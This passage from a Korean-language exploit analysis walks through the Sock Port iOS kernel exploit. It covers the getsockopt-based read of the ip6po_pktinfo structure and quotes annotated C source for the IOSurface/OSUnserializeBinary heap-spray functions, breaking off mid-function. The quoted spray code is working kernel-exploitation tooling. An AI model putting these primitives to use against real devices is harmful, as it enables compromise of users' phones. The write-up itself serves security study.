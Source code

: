 이후 `getsockopt` 함수를 통해 `minmtu`를 읽어 Spraying이 성공했는지 확인하고, 
성공 시 `getsockopt`를 통해 `ip6po_pktinfo` 구조체를 읽어온다. 

![image.png](pics/image%204.png)

`ip6po_pktinfo`의 크기는 0x14=20바이트이므로, 
이 방식을 통해 한 번에 대상 주소의 20바이트 데이터를 읽을 수 있다.

### Sock Port 익스플로잇에서 제공하는 IOSurface 관련 함수들을 살펴보기

`spray_IOSurface` 함수는 스프레이할 데이터와 크기만 제공해주면 된다.. 
이 함수는 `IOSurface_spray_with_gc`의 래퍼로써, 생성되는 `OSArray`에 대한 기본 설정을 제공한다.

`array_count = 32`는 32개의 스프레이 배열을 생성하여 총 32회 힙 스프레이를 수행함을 뜻하고, `array_length = 256`은 각 배열에 256개의 스프레이 데이터를 포함함을 의미한다.

```c
bool
IOSurface_spray_with_gc(uint32_t array_count, uint32_t array_length,
        void *data, uint32_t data_size,
        void (^callback)(uint32_t array_id, uint32_t data_id, void *data, size_t size)) {
    return IOSurface_spray_with_gc_internal(array_count, array_length, 0,
            data, data_size, callback);
}

int spray_IOSurface(void *data, size_t size) {
    return !IOSurface_spray_with_gc(32, 256, data, (uint32_t)size, NULL);
}
```

### OSUnserializeBinary XML Spraying 원리

OSUnserializeBinary XML Spraying 원리에 대해 이해하기 위해 총 7개의 핵심 단계로 이뤄 설명해놓았다.

```c
static bool
IOSurface_spray_with_gc_internal(uint32_t array_count, uint32_t array_length, uint32_t extra_count, void *data, uint32_t data_size, void (^callback)(uint32_t array_id, uint32_t data_id, void *data, size_t size)) {
    // 1. IOSurfaceRootClient 객체를 생성하여 커널과 통신
    // Make sure our IOSurface is initialized.
    bool ok = IOSurface_init();
    if (!ok) {
        return 0;
    }
    
    // 2. 현재 사용 방식에서는 extra_count = 0이므로 extra_count는 무시할 수 있음
    // How big will our OSUnserializeBinary dictionary be?
    uint32_t current_array_length = array_length + (extra_count > 0 ? 1 : 0);
    
    // 3. Spraying Data에 필요한 XML 노드 수 계산
    size_t xml_units_per_data = xml_units_for_data_size(data_size);
    
    // 4. 여기서 여러 개의 1은 Spraying Data 외에 고정된 XML 노드를 의미하며, 구체적인 구성은 이후에 확인할 수 있음
    size_t xml_units = 1 + 1 + 1 + (1 + xml_units_per_data) * current_array_length + 1 + 1 + 1;
    
    // 5. 커널에 전달할 args를 구성하며, 여기에는 생성할 XML과 기타 설명 내용이 포함됨
    // Allocate the args struct.
    struct IOSurfaceValueArgs *args;
    size_t args_size = sizeof(*args) + xml_units * sizeof(args->xml[0]);
    args = malloc(args_size);
    assert(args != 0);
```